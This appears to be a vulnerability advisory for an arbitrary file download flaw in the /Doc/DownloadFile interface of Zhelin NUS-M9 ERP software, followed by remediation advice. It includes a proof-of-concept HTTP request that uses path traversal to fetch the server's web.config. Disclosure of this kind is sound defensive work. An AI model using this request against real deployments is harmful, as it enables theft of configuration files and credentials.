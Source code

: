 ## Zhelin NUS-M9 ERP Management Software for the Mechanical Industry



**Arbitrary File Download Vulnerability in Zhelin NUS-M9 ERP Management Software Interface /Doc/DownloadFile**

## **Background** 

Zhelin Information Technology Co., Ltd. (abbreviated as Zhelin Software) is a high-tech internet data company focused on the mechanical industry, specializing in the development, consulting, implementation, and services of enterprise management information software platforms. One of its core products, the Zhelin NUS-M9 ERP management software for the mechanical industry, is widely used in industrial manufacturing. Recently, a severe arbitrary file download vulnerability was discovered in the **/Doc/DownloadFile** interface of this software.

## **Vulnerability Description**

This vulnerability allows unauthorized attackers to download any file on the server by manipulating interface requests. It typically occurs when the application fails to properly validate the file path provided by the user. By exploiting this vulnerability, attackers can access and download sensitive files from the system, such as configuration files, database backups, or other critical information, posing a significant security threat to the system.

## **Impact of the Vulnerability**

1. **Data Breach**: Attackers can download and steal sensitive files, such as user credentials, configuration files, or business data, leading to data breaches.
2. **System Compromise**: By obtaining critical configuration files or code, attackers may conduct further attacks, such as injecting malicious code or manipulating system behavior.
3. **Compliance Risks**: Incidents involving data breaches may violate data protection regulations, leading to legal liabilities and reputational damage.

## POC

![](1.png)

```http
GET /Doc/DownloadFile?filePath=../web.config&fileNm=1.xlsx&CUserCode=666&CToken=xxxxx&OID=133&UserID=1&RepType=PublicFiles&DtlID=1&MCode=00133 HTTP/1.1
Host: 127.0.0.1:8086
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ehdywaltevtixgtll3zsaghf
Connection: close


```

![image.png](7.png)

## **Remediation Suggestions**

1. **Path Validation**: Implement strict validation and sanitization of the file path provided by the user to ensure only authorized files can be downloaded.
2. **Access Control**: Restrict the interface to allow access only to files within specific directories, preventing access to other critical directories of the system.
3. **Log Monitoring**: Enhance logging and monitoring of file download requests to detect and respond to abnormal behavior in a timely manner.
4. **Security Audits**: Conduct regular code audits and penetration testing to ensure that similar vulnerabilities can be discovered and fixed promptly.

**Conclusion:** The Zhelin NUS-M9 ERP management software plays a critical role in industrial manufacturing enterprises, making its security of utmost importance. By promptly fixing this arbitrary file download vulnerability, enterprises can effectively protect their data security and prevent potential attacks and data breach incidents.
